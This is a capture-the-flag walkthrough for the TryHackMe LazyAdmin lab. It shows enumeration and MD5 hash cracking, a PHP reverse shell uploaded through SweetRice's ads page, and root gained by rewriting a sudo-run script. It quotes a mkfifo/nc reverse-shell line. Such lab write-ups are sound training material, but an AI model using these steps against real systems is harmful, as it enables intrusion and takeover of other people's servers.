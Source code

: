 # LazyAdmin-TryHackMe

# LazyAdmin

[LazyAdmin-link](https://tryhackme.com/room/lazyadmin)

TASK -1 USER FLAG

## Enumeration(NMAP)
nmap -sC -sV -oN nmap MACHINE_IP
```
# Nmap 7.80 scan initiated Sun Nov 22 00:03:22 2020 as: nmap -sC -sV -oN nmap MACHINE_IP
Nmap scan report for MACHINE_IP
Host is up (0.18s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 22 00:03:53 2020 -- 1 IP address (1 host up) scanned in 30.19 seconds

```
```
Open the webpage int broswer http://MACHINE_IP
```
RUN Gobuster/Dirbuster To enumerate and find hidden directories
```bash
gobuster dir -u http://MACHINE_IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
```
/content
```
```
Open the webpage int broswer http://MACHINE_IP/content
```
```AT MACHINE_IP/content
Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed
```

RUN Gobuster on MACHINE_IP/content
```bash
gobuster dir -u http://lazyadmin.com/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 35
```
```
/inc
```
```bash
OPEN AT BROSWER MACHINE_IP/content/inc
```
```
we will see a folder named mysql_backup, navigate to mysql_backup and download the file ,open the file using any text editor.
```
```downloaded_sql_file
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\
"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:
\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"
<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p>
```
```creds
We can see that username is manager and password is hashed
```
```bash
run hash-identifier to find out hash type it is MD5
```
```bash
echo 42f749ade7f9e195bf475f37a44cafcb > hash.txt
john hash.txt --format=RAW-MD5 --wordlist=/usr/share/wordlists/rockyou.txt
```

```creds
We get Password
```
```bash
We find login page at MACHINE_IP/content/as in browser, Login with the username and password.
```
GOTO to media center ADS and upload the reverse shell if you dont have you can download it from the link below
[php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
Change the ip the reverse shell php script to your tun0, run ifconfig to find your tun0 address
Set port of preferable choice 1234 or 443. save it and upload the file and give it a name click submit and file is uploaded at http://MACHINE_IP/content/inc/ads/yourfilename.php

open terminal and execute this
```bash
nc -lnvp portnumber_you_gave_in_script
``` 
now click on the uploaded file and spawn a shell

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```
This command is used to spawn a tty terminal, move to /home/itguy

```
cat user.txt We get the first flag. TASK-1 Completed..!!
```

TASK-2 ROOT FLAG

## Privilege Escalation


```
cat backup.pl, its a perl script
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
this script executes another script /etc/copy.sh

```bash 
cat /etc/copy.sh
```
```contents_of_copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
we cant run this..
```
```
sudo -l
we can run this : /usr/bin/perl /home/itguy/backup.pl
that is copy.sh needs to be modified for reverse shell
```
```bash
echo "/bin/bash" > /etc/copy.sh
```

```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```
```bash
whoami
we are root user, navigate to root and you can find root.txt, cat it to get root flag
TASK-2 Completed..!!
```
